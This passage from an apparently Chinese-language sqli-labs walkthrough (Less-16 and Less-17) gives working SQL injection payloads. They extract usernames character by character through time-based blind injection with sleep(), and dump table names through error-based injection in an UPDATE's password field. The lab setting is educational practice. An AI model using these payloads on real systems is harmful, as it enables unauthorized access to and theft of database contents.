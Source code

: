 + 接下来尝试使用`"or 1=if(1=1,sleep(3),0)--+`，进行注入发现没有延迟效果，应该是我们猜测的SQL语句有问题再次猜测：

```sql
select column1, column2 from users where username=("") and password = ("");
```

+ 尝试使用`")or 1=if(1=1,sleep(3),0)--+`，发现注入成功。接下来尝试使用下列语句：

```sql
# 查询第一位数据
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),1,1)='a',sleep(3),0)--+&passwd=&submit=Submit
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),1,1)='b',sleep(3),0)--+&passwd=&submit=Submit
...
# 正确
uname=")or+1=if(substr((select group_concat(username) from users),1,1)='d',sleep(3),0)--+&passwd=&submit=Submit

# 查询第二位数据
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),2,1)='a',sleep(3),0)--+&passwd=&submit=Submit
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),2,1)='b',sleep(3),0)--+&passwd=&submit=Submit
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),2,1)='c',sleep(3),0)--+&passwd=&submit=Submit
...
# 正确
uname=")or+1=if(substr((select group_concat(username) from users),2,1)='u',sleep(3),0)--+&passwd=&submit=Submit
```

## Less-17 更新查询基于错误字符串

+ 假设该更新语句为：

```sql
update table set password = '$password' where username = '$username' limit 0, 1;
```

+ 根据上面猜测的语句无法进行注入。然后我就憋住去看了一下源代码。发现username进行过滤了，没办法注入然后我就打算在password中进行注入。

```sql
uname=admin&passwd=123456'+where+1=exp(~(select+*+from+(select+group_concat(table_name)+from+information_schema.tables+where+table_schema=database())a))--+&submit=Submit
```

+ 这里我们利用报错注入来获取数据。
